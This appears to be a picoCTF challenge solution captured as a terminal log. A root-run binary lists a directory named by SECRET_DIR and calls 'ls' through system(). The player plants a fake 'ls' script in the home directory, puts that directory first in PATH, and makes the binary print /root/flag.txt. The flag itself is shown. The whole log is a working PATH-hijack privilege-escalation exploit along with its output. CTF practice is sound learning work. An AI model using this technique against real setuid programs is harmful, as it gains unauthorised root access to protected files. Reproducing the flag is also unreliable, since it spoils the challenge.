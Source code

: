 

ctf-player@pico-chall$ bash
ctf-player@challenge:~$ ls
bin
ctf-player@challenge:~$ ./bin 
Error: SECRET_DIR environment variable is not set
ctf-player@challenge:~$ exit
exit
ctf-player@pico-chall$ ./bin 
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ bash
ctf-player@challenge:~$ echo '#!/bin/bash' > ~/ls
ctf-player@challenge:~$ echo 'cat "$1"' >> ~/ls
ctf-player@challenge:~$ chmod +x ~/ls
ctf-player@challenge:~$ SECRET_DIR=~/ls
ctf-player@challenge:~$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@challenge:~$ SECRET_DIR=~/ls ./bin
Listing the content of /home/ctf-player/ls as root: 
/home/ctf-player/ls
ctf-player@challenge:~$ SECRET_DIR=/root ./bin
Listing the content of /root as root: 
flag.txt
ctf-player@challenge:~$ PATH=~/:$PATH SECRET_DIR=/root ./bin
Listing the content of /root as root: 
cat: /root: Is a directory
Error: system() call returned non-zero value: 256
ctf-player@challenge:~$ echo '#!/bin/bash' > ~/ls
ctf-player@challenge:~$ echo 'cat "/root/flag.txt"' >> ~/ls
ctf-player@challenge:~$ PATH=~/:$PATH SECRET_DIR=/root ./bin
Listing the content of /root as root: 
picoCTF{Power_t0_man!pul4t3_3nv_1ac0e5a3}ctf-player@challenge:~$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
